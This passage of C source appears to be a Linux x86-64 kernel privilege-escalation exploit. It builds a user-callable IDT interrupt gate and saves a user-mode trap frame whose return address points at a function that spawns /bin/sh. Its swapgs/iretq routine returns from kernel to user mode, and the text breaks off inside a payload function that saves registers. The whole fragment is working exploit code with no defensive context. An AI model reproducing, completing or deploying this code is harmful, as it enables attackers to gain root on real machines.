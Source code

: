 ```c
	(idt).type      = 0xe; /* GATE_INTERRUPT */ \
	(idt).dpl       = 3; /* can Execute int in usermode */\
	(idt).p         = 1; \
	(idt).offset_md        = (uint16_t) (addr >> 16); \
	(idt).offset_hi        = (uint32_t) (addr >> 32); \
	(idt).zero1     = 0;

struct trapFrame {
	void* rip;
	uint64_t user_cs;
	uint64_t user_rflags;
	void* rsp;
	uint64_t user_ss;
};

struct trapFrame tf;

struct idtr {
	uint16_t limit;
	uint64_t base;
} __attribute__ ((packed));

struct idtd {
	uint16_t offset_lo;
	uint16_t segment;
	uint16_t ist:3, zero0: 5, type: 5, dpl: 2, p: 1;
	uint16_t offset_md;
	uint32_t offset_hi;
	uint32_t zero1;
} __attribute__ ((packed));

static void shell() {
	system("/bin/sh");
	exit(0);
}

static void save() {
	asm(
		"xor %%rax, %%rax;"
		"movq %%cs, %0;"
		"movq %%ss, %1;"
		"pushfq;"
		"popq %2;"
		: "=r" (tf.user_cs),
		  "=r" (tf.user_ss),
		  "=r" (tf.user_rflags) : : "memory"
	);
	tf.rip = &shell;
	tf.rsp = (void*)0x35000500;
}

static void rest() {
	asm(
		"movq $tf, %rsp;"
		"swapgs;"
		"iretq;"
	);
}

void __attribute__((regparm(3))) payload() {
        asm(
                "pushq %rax;"                                   /* save Registers */
                "pushq %rcx;"
```